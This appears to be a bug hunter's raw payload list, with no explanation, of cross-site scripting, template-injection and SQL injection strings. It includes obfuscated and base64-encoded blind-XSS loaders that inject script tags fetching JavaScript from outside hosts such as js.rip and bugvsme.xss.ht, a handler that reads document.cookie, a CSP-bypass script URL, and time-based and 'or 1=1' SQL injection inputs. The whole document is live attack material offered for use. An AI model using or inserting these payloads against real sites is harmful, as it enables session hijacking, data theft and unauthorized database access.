 ## %26gt;%26quot;%26lt;"';}}“></SCRIPT><img src=x onerror=alert(69)>${{7*7}} ##

"><svg/onload=alert()>

<A%20HRef="%20AutoFocus%20Onfocus=top[%60ale$%7B%27rt%27%7D%60](1)>&x=x


</script>"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


<svg><use><set attributeName="href"
to="data:image/svg+xml,&lt;svg id='x'
xmlns='http://www.w3.org/2000/svg'&gt;&lt;image
href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />

jafewi2915@apxby.com
<img%00x src='x' onscrollend='alert(1)'  'style="display:block;overflow:auto;border:1px dashed;width:700px;height:500px;"><span id=x>XSS</span></xss>

0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z


"><script src=https://js.rip/8rbc6u9kxc></script>

j&#97v&#97script


<img src=x onerror=" ℹ️='',ℹ️ℹ️=!ℹ️+ℹ️,ℹ️ℹ️ℹ️=!ℹ️ℹ️+ℹ️,ℹ️ℹ️ℹ️ℹ️=ℹ️+{},ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️[ℹ️++],ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️],ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=++ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️,ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️],ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+=ℹ️ℹ️ℹ️ℹ️[ℹ️]+(ℹ️ℹ️.ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️)[ℹ️]+ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️[ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️][ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️](ℹ️ℹ️ℹ️[ℹ️]+ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️+`(ℹ️)`)()
 ">



"><a nope="%26quot;x%26quot;"onmouseover="Reflect.get(frames,'ale'+'rt')(Reflect.get(document,'coo'+'kie'))">

&quot;&lt;script&gt;alert('bug_vs_me')&lt;/script&gt;

<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://w3.org/2000/svg'&gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />


"onmouseover=javascript:window.onerror=alert;throw[1]


"';}}“></script><img src=x onerror=alert``//>{{'7'*7}}


TRUFFLE 




"><><img src=x onError=prompt(1)>

"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS5ieHNzLmluIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw onerror=eval(atob(this.id))>


javascript:eval(atob(`dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7`))

Above BXSS 


javascript:eval(atob('dmFyIHNjcmlwdFRhZyA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwogICAgICBzY3JpcHRUYWcuc3JjID0gImh0dHBzOi8vYnVndnNtZS4wMDB3ZWJob3N0YXBwLmNvbS9hbGVydC5qcyI7CiAgICAgIGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJteS1zY3JpcHQiKS5hcHBlbmRDaGlsZChzY3JpcHRUYWcpOw=='))



this.innerHTML=String.fromCharCode(60,105,109,103,32,115,114,99,61,39,120,39,32,111,110,101,114,114,111,114,61,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,59,39,62)

<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29;">xss</a>

"><a href=&#x6a;avascript:alert(0)//>xss</a>

https://storage.googleapis.com/bypass_csp/xss.js

https://accounts.google.com/o/oauth2/revoke?callback=alert(1)

>҉ðŸ˜‡Ÿ˜<҉💋😇"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>	

cloudflare bypass %26lt;svg%20on%20onload%3D(alert)(document.domain)>

“"><img/src/onerror=alert(0)>


"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


%26quot;%26gt;%26lt;img%2Fsrc%2Fonerror%3Dalert()>


?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e 



+'alert(0)'+

"hello<form/><!><details/open/ontoggle=alert(1)>"
@gmail
.com


<img src=totallyfake onerror=import(‘//domain.com/‘);//


%2522%253e%253cscript%253ealert(0)%253c/script%253e

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3




<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre>
<base href=https://js.rip/8rbc6u9kxc>
<pre x=&#34;">
<code></code></pre>

<iframe/srcdoc='<script/src=/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/alert.js></script>'></iframe>


%253Cscript%253Ealert('XSS')%253C%252Fscript%253E


"><input%20tabindex=%221%22%20on%00mousemove=alert()%20onm%00ouseover=%22eval(atob(this.id))%22%20id=%22dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7%22%20autofocus=%22%22%3E


"><input type=image src=x onerror=alert()>

"tabindex="1" onfocus="alert(1)" autofocus"


"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>

\x3Cscript\x3E alert()\x3C/script\x3E



/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)"


[![<img](https://www.linkpicture.com/q/get-started-button-1.svg)](https://www.linkpicture.com/q/34643474-rubber-stamp-with-text-do-not-open-inside-vector-illustration-1.svg)

![<img](https://www.linkpicture.com/q/get-started-button-1.svg)

"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//






SQLI SQLI SQLI SQLI SQLI 

admin' or '1'='1

'XOR(sleep(5))OR'
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
;%20waitfor%20delay%20'0:0:6'%20--%20

